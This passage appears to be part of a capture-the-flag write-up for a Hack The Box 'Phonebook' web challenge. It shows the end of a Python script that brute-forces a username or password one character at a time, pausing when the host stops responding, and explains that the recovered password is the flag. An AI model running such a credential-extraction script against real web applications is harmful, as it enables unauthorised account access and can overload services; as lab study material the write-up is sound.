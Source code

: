 ```python
			else:
				#print(f"Invalid --> USERNAME : {user_name+usr_character} | PASSWORD : {passwd+pass_character}") # For testing purpose
				track+=1

		except KeyboardInterrupt:
			exit()

		except:
			
			# If the host is not available due to excessive brutefore attack
			# then it will wait some time to send another request
			wait=5
			time.sleep(wait)
			print(f"\nCouldn\'t able to reach {url}   |  Waiting for {wait} seconds\n")


print("Starting Attack\n")

#cred_finder('user_name') # Find the Username
cred_finder('passwd') # Find the Passwd

```

No `proxy` has been used in this script.<br>
You can also run it with `proxy` if you want to.

It may be possible that the webapp will not respond, because of `bruteforce attack`, which can lead to `DDOS Attack`<br>
in that case the script will wait for 5 seconds before sending next request to the webapp.

This script is capable of finding `username` as well as `password`

![brute_user](/assets/htb/challenge/web/phonebook/img/brute_user.png)

But in this case we have to find the `password` only to solve the challenge.<br>
The `password` is the `flag` for this challenge
